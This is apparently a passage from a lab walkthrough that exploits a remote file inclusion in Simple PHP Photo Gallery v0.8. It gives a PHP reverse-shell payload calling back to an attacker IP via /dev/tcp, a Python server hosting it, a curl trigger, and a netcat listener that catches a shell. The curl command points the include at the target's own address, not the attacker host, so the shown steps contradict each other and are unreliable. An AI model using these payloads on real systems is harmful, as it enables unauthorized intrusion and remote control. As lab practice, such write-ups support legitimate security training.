 ## port 3306 (`mysql`)
> It is not allowed to connect to the `mysql` service from a from remote IP.
{: .prompt-danger }

## port 80 (web server)
`Simple PHP Photo Gallery v0.8` is installed on the web server.

---

# exploitation
## find exploit

> Googling for exploits for `Simple PHP Photo Gallery v0.8` reveals that the application is vulnerable to a [remote file inclusion](https://www.exploit-db.com/exploits/48424) (`site.com/image.php?img=[ PAYLOAD ]`).
{: .prompt-info }

## exploit it
### script to include
Simple reverse shell `php` code.
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.49.126/21 0>&1'");
?>
```

### provide shell via web server
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### trigger back connect
```bash
$ curl 'http://192.168.126.58/image.php?img=http://192.168.126.58/shell.php'
```

### catch connect from target
```bash
$ nc -lvp 21
listening on [any] 21 ...
192.168.126.58: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.58] 41630
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```
